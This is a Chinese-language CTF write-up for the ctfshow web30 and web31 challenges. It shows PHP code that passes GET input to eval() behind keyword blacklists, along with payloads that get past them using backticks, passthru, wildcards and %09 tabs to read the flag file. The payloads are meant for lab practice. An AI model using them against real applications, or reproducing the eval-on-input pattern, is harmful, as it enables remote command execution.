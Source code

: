 ```php
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

过滤了flag，php字符，system命令

\`\`和passthru都可以起到system的作用,值得注意的是\`\`没有回显要用echo

当然也可以拼接替代通配符，略

pyload:?c=echo\`tac fla?.???|grep ctfshow\`;

pyload2:?c=passthru("tac f*|grep ctfshow");

### web31

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

过滤了flag,system,php,基础上还过滤了cat，sort，shell，英文句号还有单引号跟空格，cat 可以用nl,tac带替换，nl就是cat 输出多加了行号

上难度了,借鉴Pur3师傅的绕过姿势

用tab代替空格，tab的url编码为%09,空格为%20

payload：?c=passthru("more%09fl*");

在借鉴一下大菜鸡师傅的逃逸执行,逃逸之后想干啥敢杀，直接无视过滤
